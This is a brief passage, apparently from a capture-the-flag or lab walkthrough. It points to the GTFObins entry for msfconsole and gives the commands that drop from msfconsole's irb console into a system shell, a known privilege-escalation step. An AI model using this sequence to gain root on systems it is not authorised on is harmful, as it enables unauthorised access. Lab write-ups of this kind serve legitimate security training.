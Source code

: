 > Research the PE from msfconsole in GTFObins

- [(GTFObins)msfconsole](https://gtfobins.github.io/gtfobins/msfconsole/)

![](./IMG/51.png)


> Execute the following command 

```
msfconsole 
irb
system("/bin/sh")
```

![](./IMG/52.png)
